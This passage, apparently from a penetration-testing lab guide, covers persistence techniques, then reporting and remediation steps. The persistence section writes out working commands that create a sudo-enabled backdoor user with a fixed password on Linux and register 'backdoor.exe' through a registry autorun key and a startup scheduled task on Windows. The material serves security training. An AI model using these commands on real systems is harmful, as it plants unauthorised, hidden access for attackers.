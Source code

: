 ### B. Persistence

1. **Linux Persistence**
   ```bash
   # Create backdoor user
   useradd -m -s /bin/bash backdoor
   echo "backdoor:password" | chpasswd
   usermod -aG sudo backdoor
   ```

2. **Windows Persistence**
   ```bash
   # Registry autorun
   reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\backdoor.exe"
   
   # Scheduled task
   schtasks /create /tn Backdoor /tr C:\backdoor.exe /sc onstart
   ```

## Lab 5: Reporting

### A. Documentation

1. **Evidence Collection**
   ```bash
   # Screenshot automation
   cutycapt --url=http://192.168.56.100 --out=screenshot.png
   
   # Video recording
   recordmydesktop --no-sound -o pentest.ogv
   ```

2. **Report Template**
   ```markdown
   # Executive Summary
   # Methodology
   # Findings
   # Proof of Concept
   # Recommendations
   # Appendices
   ```

### B. Remediation

1. **Vulnerability Fixes**
   ```bash
   # Update systems
   sudo apt update && sudo apt upgrade -y
   
   # Harden configurations
   sudo chmod 600 /etc/shadow
   sudo ufw enable
   ```
